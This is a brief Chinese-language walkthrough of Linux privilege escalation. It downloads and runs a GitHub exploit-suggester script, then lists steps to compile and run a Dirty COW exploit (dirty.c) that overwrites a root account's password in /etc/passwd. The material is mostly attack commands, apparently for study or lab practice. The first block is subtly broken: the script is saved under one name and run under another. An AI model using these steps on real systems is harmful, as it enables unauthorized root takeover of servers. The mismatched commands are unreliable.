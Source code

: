 **linux 提权漏洞检测脚本**

```
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh

./linux-exploit-suggester.sh
```
![](./linux提权_image/41.png)

**漏洞复现**

```
在服务器tmp目录创建一个提权文件
vi dirty.c
编译该提权文件
gcc -pthread dirty.c -o dirty -lcrypt
为编译后的文件添加执行权限
chmod +x dirty
将编译后的提权文件执行
./dirty root(指定添加用户的密码为root)

注意：脏牛提权之前需要把/etc/passwd文件进行备份，这里的的提权脚本默认会备份为passwd.bak文件，改完密码之后记得将/etc/passwd文件覆盖
```
![](./linux提权_image/42.png)


